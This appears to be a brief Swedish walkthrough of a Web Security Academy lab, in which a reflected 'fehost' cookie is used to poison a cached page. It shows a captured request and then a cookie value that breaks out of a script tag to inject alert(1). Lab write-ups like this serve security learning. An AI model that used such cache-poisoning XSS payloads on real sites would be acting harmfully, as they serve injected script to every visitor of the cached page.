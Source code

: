 
1. Inspektera requesten nedan och notera kakan:
```
GET /product?productId=1 HTTP/2
Host: 0a2d00be03e3809eaef41eee009c0089.web-security-academy.net
Cookie: session=swcv36Lbl3FRjWyP73trmZfnR05Fe0qz; fehost=prod-cache-01
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a2d00be03e3809eaef41eee009c0089.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

2. notera att `fehost` speglar sig i requesten och cachar sidan 
3. skapa en xss: 
   ```prod-cache-01"}</script><script>alert(1)</script><script>// ```


